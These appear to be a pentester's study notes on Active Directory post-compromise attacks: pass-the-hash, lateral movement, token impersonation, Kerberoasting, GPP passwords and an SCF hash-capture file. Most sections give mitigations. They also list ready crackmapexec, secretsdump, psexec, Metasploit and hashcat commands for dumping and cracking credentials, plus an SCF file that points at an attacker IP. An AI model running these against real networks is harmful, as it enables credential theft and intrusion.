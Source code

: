 # Active Directory Post Compromise Attacks

---
## Pass the Hash/Password
---

> If able to crack password hash, or can dump SAM hashes, try to pass around network to check for access to other machines on network.

### use crackmapexec
- Pass the password
	- ` crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <pass>`

- Pass the hash
	- ` crackmapexec smb <ip>CIDR> -u <user> -H <hash> --local-auth`
- Dump sam, ntds, lsa
	- ` crackmapexec smb <ip/CIDER> -u<user> -p <pass> -d <domain> --sam/--ntds/--lsa`

#### Local vs Domain pass spraying
- pass spray local not domain as domain accounts will get locked out where local will not

---
## Move Laterally
---
- If lateral access is found, can use psexec.py to gain shell on new machine
	` psexec.py <domain>/<user>:<password>@<ip> `

- next use secrets.py to dump sam on new machine
	- `secretsdump.py <domain>/<user>:<password>@<ip>`

secrets.py dumps sam hashes, lsa secrets and DPAPI keys

#### NTLM hash can be passed, NTLMV2 cannot
SAM = NTLM hash
crack with hashcat
	- `hashcat -m 1000 hashfile.txt wordlist.txt -O `

---
## Pass Attack Mitigations
---

- Limit account reuse
	- avoid re-using local admin password
	- disable guest and administrator accounts
	- limit who is a local admin (least privilege)

- use strong passwords
	- longer the better
	- avoid common words
	
- privilege access management
	- check out/in sensitvie accounts
	- auto rotate passwords on check out/in
	- limits pass attacks as passwords is constantly rotated

---
## Token Impersonation
---

- What is Token
	- Temp keys to access system/network without needing creds
	- similar to a cookie for the web

- Two types
	- Delegate, created for logging into machine or using RDP
	- Impersonate, "non interactive" such as attaching network drive

### Attack steps
- start metasploit `msfconsole` then use psexec ` use exploit/windows/smb/psexec`
- set options in psexec module then hit run
- `load incognito` to attempt token impersonation
- `list_tokens -u` list available tokens
- `impersonate_token <token name>` use "\\\\" to escape backslash i.e. domain\\user for token name domain\user
- `rev2self` to revert to self after impersonation


#### Token impersonation mitigation
- Limit user/group token creation permissions
- account tiering and isolation
	- regular user account for day to day, admin account for specific needs on specific machines
		- i.e domain admin should only log in to domain controller and not local machines
- local admin restriction


---
## Kerberoasting
---
[kerberoasting hacktricks](https://book.hacktricks.xyz/windows/active-directory-methodology/kerberoast)
[kerberoasting info](https://medium.com/mitigation@Shorty420/kerberoasting-9108477279cc)

### attack steps
- Get SPNs, Dump Hash
	- `GetUserSPNs.py <domain/username:password> -dc-ip <ip of DC> -request`
- attempt crach hash with hashcat
	- `hashcat -m 13100 kerberoasthash.txt rockyou.txt`

#### Kerberoasting Mitigations
- strong passwords
- least privilege
	- don't make service accounts domain admins, and dont' give service accounts weak passwords

---
## GPP Attacks
---

locate cpassword in Groups.xml
use gpp-decrypt to decrypt cpassword. 
try to gain shell with creds

---
## URL / SCF Attack
---

file example
```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\10.10.14.19\%USERNAME%.icon
IconIndex=1
```


